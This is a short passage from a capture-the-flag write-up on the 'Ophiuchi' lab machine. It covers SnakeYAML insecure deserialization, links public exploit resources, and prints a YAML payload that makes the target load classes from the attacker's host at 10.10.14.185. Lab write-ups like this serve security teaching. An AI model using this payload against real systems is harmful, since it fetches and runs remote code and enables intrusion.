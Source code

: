 /servlet - ISs a blank page

[![](Ophiuchi/Untitled%205.png)](Ophiuchi/Untitled%205.png)

The YAML parser have a CVE called insecure deserialization, and in this
article shows how to exploit it.

[https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)

Github about YAML Payload :
[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

I note that the Parse YAML java payload returns in my server a response.

``` {#289f8535-a917-4e5b-833c-e92796ab617b .code}
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.185/"]
  ]]
]
```

